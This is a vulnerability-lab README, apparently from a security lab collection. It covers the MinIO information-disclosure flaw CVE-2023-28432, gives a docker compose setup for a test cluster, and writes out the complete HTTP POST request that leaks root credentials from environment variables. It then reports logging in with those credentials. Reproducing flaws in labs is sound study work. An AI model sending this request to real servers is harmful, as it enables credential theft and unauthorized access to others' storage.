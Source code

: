 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO is a High Performance Object Storage released under GNU Affero General Public License v3.0.

In the version before `RELEASE.2023-03-20T20-16-18Z`, there is an information disclosure vulnerability if MinIO is deployed in cluster mode. An attacker can use an HTTP request to obtain all environment variables of the target process, including `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD`.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

Executing following commands to start a MinIO cluster:

```
docker compose up -d
```

After the cluster has been started, you can browse Web console on `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. Send the request to retrieve all environment variables:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:

![](2.png)
